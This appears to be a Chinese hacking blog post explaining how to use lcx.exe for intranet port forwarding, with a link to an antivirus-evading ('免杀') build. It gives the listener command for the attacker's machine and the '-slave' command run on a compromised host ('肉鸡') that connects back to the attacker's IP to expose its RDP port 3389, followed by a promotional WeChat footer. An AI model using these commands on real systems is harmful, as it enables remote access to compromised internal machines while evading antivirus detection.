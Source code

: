 ```yaml
---
layout: post
category: curleyg-code-hack
title: lcx.exe内网转发命令教程-LCX免杀下载
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: lcx.exe内网转发命令教程-LCX免杀下载
lock: need
---
```


# lcx.exe内网转发命令教程-LCX免杀下载

本机: lcx -listen 2222 3333

2222为转发端口，3333为本机任意未被占用的端口

肉鸡：lcx -slave 192.168.109.137 2222 127.0.0.1 3389

192.168.109.137 为本机IP,2222为转发端口，127.0.0.1为肉鸡内网IP，3389为远程终端端口

3389连接时格式 127.0.0.1:3333

下载地址：https://download.csdn.net/download/l1028386804/10816160


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
